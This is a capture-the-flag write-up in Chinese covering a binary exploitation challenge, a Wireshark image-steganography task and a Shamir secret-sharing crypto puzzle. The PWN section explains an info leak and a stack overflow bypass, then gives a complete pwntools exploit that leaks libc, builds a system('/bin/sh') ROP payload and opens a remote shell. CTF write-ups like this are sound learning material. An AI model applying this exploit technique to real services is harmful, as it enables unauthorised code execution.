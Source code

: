 ## [PWN] strike
read 不会在读取的数据后面加 \x00, 于是就可以通过 fprintf 泄露 setbuf 地址,  
然后算出基地址. password 长度输 -1, 就可以绕过长度限制, 直接栈溢出, 之后就是 rop 了.  

```python
from pwn import *

p = remote('116.85.48.105',5005)
p.recvuntil('username:')
p.send('1'* 40)

t = p.recvuntil('Plea')
libcleak = u32(t[0x33:0x37])  
stackButtom =  u32(t[0x2f:0x33])
stack = stackButtom + 0x18
libcbase = libcleak - 0x00065465
# print hex(stack)
# print hex(libcbase)

p.recvuntil('password:')
p.sendline('-1')
p.recvuntil('):')
binsh = libcbase + 0x0015902B
# execve = libcbase + 0x000AF590
system = libcbase + 0x0003A940
payload = p32(stack)*((0x4c+0x18)/4 - 1) + p32(system) + p32(binsh) *4
p.send(payload)
p.interactive()
```

## Wireshark
找 HTTP 流量, 可以找到几张图, 有一张图损坏无法打开, 发现 crc 不对, 修复一下就是秘钥,  
得到 `57pmYyWt`, 然而不知道是啥隐写, 最后通过流量记录发现访问过 `http://tools.jb51.net/`,  
可以在上面找到一个图片隐写, 把图片都试了一下最后发现那张比较大的图片可以解出 flag,  
```
flag+AHs-44444354467B5145576F6B63704865556F32574F6642494E37706F6749577346303469526A747D+AH0-
```
把里面的 `44444354467B5145576F6B63704865556F32574F6642494E37706F6749577346303469526A747D`, 解个 hex 就拿到 flag.  

## 联盟决策大会
Shamir 秘密分享方案, 密码学刚学, 在 [wiki](https://en.wikipedia.org/wiki/Shamir%27s_Secret_Sharing) 上有个挺好的脚本,  
题目相当于用两次 Shamir, 这样就可以让两个组织都到才能解密, 把脚本照着这个思路稍微改一下就能拿到 flag,  
```python
from __future__ import division
from __future__ import print_function

import random
import functools

# 12th Mersenne Prime
# (for this application we want a known prime number as close as
# possible to our security level; e.g.  desired security level of 128
# bits -- too large and all the ciphertext is large; too small and
# security is compromised)
_PRIME = 0xC53094FE8C771AFC900555448D31B56CBE83CBBAE28B45971B5D504D859DBC9E00DF6B935178281B64AF7D4E32D331535F08FC6338748C8447E72763A07F8AF7
# 13th Mersenne Prime is 2**521 - 1

# ... 省略

t1 = (1,0x30A152322E40EEE5933DE433C93827096D9EBF6F4FDADD48A18A8A8EB77B6680FE08B4176D8DCF0B6BF50000B74A8B8D572B253E63473A0916B69878A779946A)
```